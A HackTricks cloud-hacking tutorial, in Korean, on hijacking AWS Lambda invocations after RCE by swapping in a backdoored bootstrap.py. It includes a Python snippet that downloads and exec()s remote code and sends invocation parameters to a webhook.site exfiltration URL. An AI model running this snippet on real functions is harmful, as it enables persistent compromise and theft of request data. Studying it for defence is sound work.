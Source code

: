 # AWS - Steal Lambda Requests

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Flow

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer**는 컨테이너 외부에서 **init** 프로세스에 **invocations**를 **보내는** 프로세스입니다.
2. init 프로세스는 포트 **9001**에서 몇 가지 흥미로운 엔드포인트를 노출합니다:
* **`/2018-06-01/runtime/invocation/next`** – 다음 호출 이벤트 가져오기
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – 호출에 대한 핸들러 응답 반환
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – 실행 오류 반환
3. **bootstrap.py**는 init 프로세스에서 호출을 가져와 사용자의 코드를 호출하여 처리하는 루프를 가집니다 (**`/next`**).
4. 마지막으로, **bootstrap.py**는 **응답**을 init에 보냅니다.

bootstrap은 사용자 코드를 모듈로 로드하므로 사용자의 코드에 의해 수행된 모든 코드 실행은 실제로 이 프로세스에서 발생합니다.

## Stealing Lambda Requests

이 공격의 목표는 사용자의 코드가 취약한 요청을 처리하는 **`bootstrap.py`** 프로세스 내에서 악성 **`bootstrap.py`** 프로세스를 실행하도록 만드는 것입니다. 이렇게 하면 **악성 bootstrap** 프로세스가 요청을 처리하기 위해 init 프로세스와 **대화**를 시작하고, **정상** bootstrap은 악성 프로세스를 실행하면서 **갇히게** 되어 init 프로세스에 요청을 요청하지 않게 됩니다.&#x20;

이 작업은 사용자의 코드가 정상 **`bootstrap.py`** 프로세스에 의해 실행되므로 간단하게 달성할 수 있습니다. 따라서 공격자는 다음을 수행할 수 있습니다:

* 현재 호출의 가짜 결과를 init 프로세스에 **보내어**, init이 bootstrap 프로세스가 더 많은 호출을 기다리고 있다고 생각하게 만듭니다.
* 요청은 **`/${invoke-id}/response`**로 보내야 합니다.&#x20;
* invoke-id는 [**inspect**](https://docs.python.org/3/library/inspect.html) 파이썬 모듈을 사용하여 정상 **`bootstrap.py`** 프로세스의 스택에서 얻거나, **`/2018-06-01/runtime/invocation/next`**에 다시 요청하여 얻을 수 있습니다 (여기에서 제안된 대로 [proposed here](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py) 또는 여기에서 제안된 대로 [proposed here](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* 다음 호출을 처리할 악성 **`bootstrap.py`**를 실행합니다.
* 은밀성을 위해 lambda 호출 매개변수를 공격자가 제어하는 C2로 보내고 요청을 평소처럼 처리할 수 있습니다.
* 이 공격을 위해서는 시스템에서 또는 [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py)에서 **`bootstrap.py`**의 원본 코드를 가져와 악성 코드를 추가하고 현재 lambda 호출에서 실행하는 것으로 충분합니다.

### Attack Steps

1. **RCE** 취약점을 찾습니다.
2. **악성** **bootstrap**을 생성합니다 (예: [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. 악성 bootstrap을 **실행**합니다.

다음 명령을 실행하여 쉽게 이러한 작업을 수행할 수 있습니다:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
더 많은 정보는 [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)를 참조하세요.

## 참고 자료

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
AWS Hacking 배우기 및 연습하기:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking 배우기 및 연습하기: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 플랜**](https://github.com/sponsors/carlospolop)을 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**telegram 그룹**](https://t.me/peass)에 가입하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 팔로우하세요.
* PR을 제출하여 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 해킹 트릭을 공유하세요.

</details>
{% endhint %}
